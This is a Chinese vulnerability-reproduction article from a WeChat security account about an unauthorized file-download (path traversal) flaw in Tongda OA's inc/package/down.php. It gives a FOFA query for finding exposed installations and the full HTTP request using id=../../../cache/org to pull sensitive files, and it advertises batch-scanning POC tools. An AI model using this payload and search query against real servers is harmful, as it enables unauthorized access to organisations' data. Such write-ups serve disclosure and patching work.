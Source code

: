 #  通达OA inc/package/down.php接口存在未授权访问漏洞 附POC   
原创 南风徐来  南风漏洞复现文库   2023-11-28 23:16  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 通达OA接口简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
通达OA（Office Anywhere网络智能办公系统）是由通达信科科技自主研发的协同办公自动化软件，是与中国企业管理实践相结合形成的综合管理办公平台。通达OA为各行业不同规模的众多用户提供信息化管理能力，包括流程审批、行政办公、日常事务、数据统计分析、即时通讯、移动办公等，帮助广大用户降低沟通和管理成本，提升生产和决策效率。此外，通达OA通过融合不同的信息化资源，打通信息“孤岛”，精细化流程管理，改善管理模式，实现资源的优化配置和高效运转，全面提升企业竞争力。它是通达信科在二十余年从事管理软件研发和服务过程中集技术创新、项目实践、先进的管理思想和中肯的客户建议为一体的完美结晶。  
## 2.漏洞描述  
  
通达OA（Office Anywhere网络智能办公系统）是由通达信科科技自主研发的协同办公自动化软件，是与中国企业管理实践相结合形成的综合管理办公平台。通达OA为各行业不同规模的众多用户提供信息化管理能力，包括流程审批、行政办公、日常事务、数据统计分析、即时通讯、移动办公等，帮助广大用户降低沟通和管理成本，提升生产和决策效率。此外，通达OA通过融合不同的信息化资源，打通信息“孤岛”，精细化流程管理，改善管理模式，实现资源的优化配置和高效运转，全面提升企业竞争力。它是通达信科在二十余年从事管理软件研发和服务过程中集技术创新、项目实践、先进的管理思想和中肯的客户建议为一体的完美结晶。通达OA存在未授权访问漏洞，该漏洞源于系统对用户传入的数据过滤不严。攻击者可借助特制的HTTP请求利用该漏洞访问敏感文件，造成信息泄露。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
通达OA  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aBM5r7Ta7QRENxnCS0zzcYS2nb0PWCtupJ8ED9zrkyWC2Gkic7J1EhIegmIc3cpWLypjI9b2Co8kA/640?wx_fmt=jpeg&from=appmsg "null")  
  
通达OA inc/package/down.php接口存在未授权访问漏洞  
## 4.fofa查询语句  
  
app="TDXK-通达OA"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/inc/package/down.php?id=../../../cache/org  
  
漏洞数据包：  
```
GET /inc/package/down.php?id=../../../cache/org HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aBM5r7Ta7QRENxnCS0zzcYIhzQbpCkyZ5NKQFx5z9gLBoHwepxscQBOXZVBSQWvkVDH0DVxxZGeA/640?wx_fmt=jpeg&from=appmsg "null")  
  
下载文件后，有大量敏感信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aBM5r7Ta7QRENxnCS0zzcYiagYDu8Q6RlkLP4pWLZRHnJpFRYHaZrjhDWkLxayJ2boGtBV03XHh7A/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现83 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aBM5r7Ta7QRENxnCS0zzcYKXSaOezYvHSYfamh6u1IMkXCyVnElUQfbuglV0w90OpEp1ngC0pPdw/640?wx_fmt=jpeg&from=appmsg "null")  
  
**本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aBM5r7Ta7QRENxnCS0zzcYMlCKT1gtYcXTXCZib5NhEbReUUXvJ6coAlPnwHe37sIZd8lUSQeceZg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aBM5r7Ta7QRENxnCS0zzcYaHR2Tb3vrrXyeE57dXlHUibSUByxib1YBNpibmiatwQWwSuXEfVQaBcBiag/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aBM5r7Ta7QRENxnCS0zzcY9ibdibKPUcznFe7s5YrTE6CwNR4FeohSDBYKADFDBS8eHz1eazibOjmlQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://www.tongda2000.com/  
## 8.往期回顾  
  
[易宝OA系统ExecuteSqlForSingle接口存在SQL注入漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484665&idx=1&sn=b21dce8ba3db849560e2c295f31182ac&chksm=974b89fea03c00e8b28eb9a70c78659ad9d838ee763c942ce63da9d8e98ad4a95b7823c8b4c8&scene=21#wechat_redirect)  
  
  
[用友NC word.docx接口存在任意文件读取漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484647&idx=1&sn=ebb5271c84d60599929e37bb5ab8f939&chksm=974b89e0a03c00f6d967cbcfb28f3a8aef966fb4770867cdf540579262172deeadfeab0d4ccb&scene=21#wechat_redirect)  
  
  
  
  
